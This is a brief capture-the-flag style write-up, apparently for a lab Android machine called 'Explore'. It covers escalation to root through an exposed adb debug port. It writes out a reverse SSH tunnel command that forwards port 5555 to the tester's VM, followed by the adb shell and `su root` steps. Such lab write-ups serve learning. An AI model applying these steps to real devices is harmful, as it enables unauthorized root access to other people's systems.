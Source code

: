 # Privilege Escalation to root
## Discovered local port 5555 on which adb in debug mode was running
Discovered local port 5555 on which adb in debug mode was running.
![[Pasted image 20210919190230.png]]
## Port forwarding port 5555 to kali VM via ssh tunnelling 
First of all SSH service was enabled on kali VM (explalined on [link](https://linuxize.com/post/how-to-setup-ssh-tunneling/). Then port 5555 on Explore machine was forwarded via ssh tunnelling to kali VM via command `ssh -R 5555:127.0.0.1:5555 -N -f kali@10.10.14.98 -p 2222`. 
![[Pasted image 20210919190913.png]]
## Now getting shell as 'shell' user via connecting to forwarded port 5555 on kali vm by using adb
Now getting shell as 'shell' user via connecting to forwarded port 5555 on kali vm by using ad.
![[Pasted image 20210919191241.png]]
## Now escalating to root via `su root`
![[Pasted image 20210919191339.png]]




